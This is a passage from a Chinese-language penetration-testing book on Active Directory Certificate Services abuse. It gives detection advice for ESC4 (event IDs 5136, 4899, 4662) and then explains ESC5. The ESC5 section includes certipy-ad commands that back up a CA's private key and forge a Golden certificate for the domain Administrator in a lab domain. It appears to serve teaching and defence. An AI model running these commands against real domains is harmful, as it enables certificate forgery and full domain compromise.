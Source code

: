 ![图 8.30 – 成功利用 ESC4 进行攻击](img/B18964_08_30.jpg)

图 8.30 – 成功利用 ESC4 进行攻击

为了防止这种攻击，建议定期审查证书的 ACL，以确保仅将高权限分配给正确的用户组。通过事件 ID `5136`可以检测此类行为，但需要调整审计策略。此事件 ID 监控我们之前更改的关键证书模板属性的修改。另一个有助于检测该事件 ID 的是`4899`。然而，事件日志中并没有记录哪个账户进行了更改，并且只有在使用修改后的模板进行注册时，该事件才会被记录[20]。模板 AD 对象上的 SACL 也可以强制执行，从而在事件 ID `4662`中提供更细粒度的视图。

### ESC5 – 易受攻击的 PKI 对象访问控制

如果攻击者对以下对象具有某些权限，则可能会危及整个 PKI 系统：

+   CA 服务器的计算机账户

+   CA 服务器的 RPC/DCOM 服务器

+   在`CN=Public** **Key Services,CN=Services,** **CN=Configuration,DC=<COMPANY>,or** **DC=<COM>`容器中的任何后代对象/容器

例如，让我们讨论以下场景。一名攻击者通过 RBCD 成功攻击了 CA 服务器的计算机账户。获得访问权限后，CA 服务器上具有本地管理员权限的域账户的 NT 哈希值被转储。此时，攻击者可以伪造一个 Golden 证书。为了复制这个攻击，我将`viserys.targaryen`添加到本地管理员组中。

作为本地管理员，可以使用以下命令备份 CA 证书和私钥：

```
certipy-ad ca -backup -u viserys.targaryen -p GoldCrown -ca ESSOS-CA -target 192.168.56.23
```

接下来，我们将为域管理员伪造一个证书并用于身份验证。请记住，`-template`选项用于避免 Kerberos `KDC_ERR_CLIENT_NOT_TRUSTED`错误，这意味着伪造不正确：

```
Certipy-ad forge -ca-pfx ESSOS-CA.pfx -upn Administrator@essos.local -subject 'CN=Administrator,CN=Users,DC=essos,DC=local' -template khal.drogo.pfx
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 192.168.56.12
```

